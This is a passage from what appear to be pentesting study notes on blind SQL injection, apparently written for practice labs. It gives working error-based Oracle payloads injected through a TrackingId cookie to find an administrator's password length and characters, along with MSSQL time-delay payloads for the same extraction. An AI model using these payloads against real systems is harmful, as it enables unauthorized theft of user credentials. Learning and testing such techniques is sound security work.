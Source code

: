 Size of password:

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`` `**`//LENGTH(password)=20 works as well`**

Check for character at specific location (for BurpSuite Intruder):

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Again, for this one the error lets you know when you are on the right path:

![](<../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1).png>)

### Exploiting blind SQL injection by triggering time delays <a href="#exploiting-blind-sql-injection-by-triggering-time-delays" id="exploiting-blind-sql-injection-by-triggering-time-delays"></a>

This method is for when the application catches database errors and handles them. The previous example will not work, since we will not get a notification of the error. The following examples are for Microsoft SQL Database:

`'; IF (1=2) WAITFOR DELAY '0:0:10'-- //no delay, since it's FALSE`\
`'; IF (1=1) WAITFOR DELAY '0:0:10'-- //delay, since it is TRUE`

Example:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
